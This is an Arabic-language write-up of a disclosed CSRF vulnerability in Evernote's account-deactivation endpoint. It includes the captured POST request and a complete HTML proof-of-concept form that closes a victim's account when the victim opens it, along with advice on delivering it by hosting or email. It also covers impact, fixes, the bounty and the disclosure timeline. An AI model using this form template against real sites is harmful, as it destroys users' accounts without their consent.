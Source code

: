 # 🔥 ثغرة CSRF في Evernote: إلغاء الحساب بدون إذن 🔥

## 📌 المقدمة
الثغرة دي بتوضح مشكلة **CSRF (Cross-Site Request Forgery)** اللي بتسمح للمهاجم إنه يلغي حساب الضحية من **Evernote** من غير ما يكون عنده تصريح.

---

## 🛠 خطوات استغلال الثغرة

### 1️⃣ **إنشاء حسابين**
- 🏴‍☠️ **حساب المهاجم**: الحساب اللي هيتم تنفيذ الهجوم منه.
- 🎯 **حساب الضحية**: الحساب المستهدف بالهجوم.

### 2️⃣ **الدخول لصفحة إلغاء الحساب**
- يسجل المهاجم دخول لحسابه.
- يروح على اللينك ده:
  ```
  https://www.evernote.com/secure/CloseAccount.action
  ```

### 3️⃣ **التقاط الطلب باستخدام Burp Suite**
- شغل **Burp Suite** واعمل **intercept**.
- اضغط على **Deactivate your Evernote account**.
- اختار سبب الإلغاء وكمل العملية.
- الطلب اللي بيتبعت هيكون بالشكل ده:

```http
POST /secure/CloseAccount.action?accountAction=deactivateAccount&json=true HTTP/1.1
Host: www.evernote.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: https://www.evernote.com
Connection: close
Referer: https://www.evernote.com/secure/CloseAccount.action
Cookie: web50017PreUserGuid=03325c9c-10bb-4705-a4db-08fde2343592; ...
Sec-GPC: 1
password=&oneTimeCode=&captchaResponse=&reasons%5Banalytic%5D=specify-reason-different-app&reasons%5Bi18nKey%5D=CloseAccountAction.accountActionSurvey.differentApp&reasons%5Bchecked%5D=true&otherReason=
```

---

### 4️⃣ **تجهيز صفحة هجوم CSRF**
- خد الطلب اللي طلع من **Burp Suite** واعملي بيه صفحة HTML بالشكل ده:

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://www.evernote.com/secure/CloseAccount.action?accountAction=deactivateAccount&json=true" method="POST">
      <input type="hidden" name="password" value="" />
      <input type="hidden" name="oneTimeCode" value="" />
      <input type="hidden" name="captchaResponse" value="" />
      <input type="hidden" name="reasons[analytic]" value="specify-reason-different-app" />
      <input type="hidden" name="reasons[i18nKey]" value="CloseAccountAction.accountActionSurvey.differentApp" />
      <input type="hidden" name="reasons[checked]" value="true" />
      <input type="hidden" name="otherReason" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

---

### 5️⃣ **إرسال الصفحة للضحية**
- المهاجم يرفع الصفحة على **موقع مستضيف** أو يبعتها للضحية في **إيميل**.
- لما الضحية يفتح الصفحة، الحساب بتاعه هيتقفل تلقائيًا.

---

## 🎯 **التأثير**
- 🛑 أي حد ممكن **يقفل حساب أي مستخدم** من غير ما يعرف.
- 💰 ممكن يتم **إلغاء حسابات البريميوم (Premium Accounts)** وبالتالي يحصل خسارة للمستخدمين.
- 🚨 تهديد كبير على **أمان وسُمعة Evernote**.

---

## 🔒 **الحلول المقترحة**
1️⃣ **استخدام CSRF Tokens** ✅
   - لازم يتم إضافة **CSRF Token** عشان يمنع تنفيذ الطلبات المشبوهة.
2️⃣ **التحقق من مصدر الطلب (Referer Header)** 🔍
   - الخادم يقبل الطلبات اللي جاية من **نطاق Evernote بس**.
3️⃣ **طلب إعادة التحقق من المستخدم** 🔑
   - يطلب من المستخدم **كلمة المرور أو كود تحقق** قبل ما يقفل الحساب.

---

## 🎖 **الجائزة والحل**
- الباحث **@sampritdas** اكتشف الثغرة وبلغ عنها على **HackerOne**.
- Evernote **اعترفت بالمشكلة وبدأت تصلحها**.
- الباحث حصل على **💰 $300 مكافأة**.

---

## 📜 **الجدول الزمني للإبلاغ**
- 📅 **10 مارس 2021**: إرسال التقرير.
- ✅ **11 مارس 2021**: تأكيد صحة الثغرة.
- 💰 **19 مارس 2021**: دفع المكافأة ($300).
- 🔧 **1 أبريل 2021**: نشر الإصلاح.
- 🌍 **19 أكتوبر 2021**: الإعلان عن الثغرة بشكل رسمي.

---

## 🔗 **مصادر إضافية**
- [📑 تقرير HackerOne](https://hackerone.com/reports/1121990)
- [🛡️ شرح CSRF](https://owasp.org/www-community/attacks/csrf)

---

🚀 **تم اكتشاف الثغرة بواسطة:** `sampritdas` | 🎯 **الموقع المتأثر:** Evernote
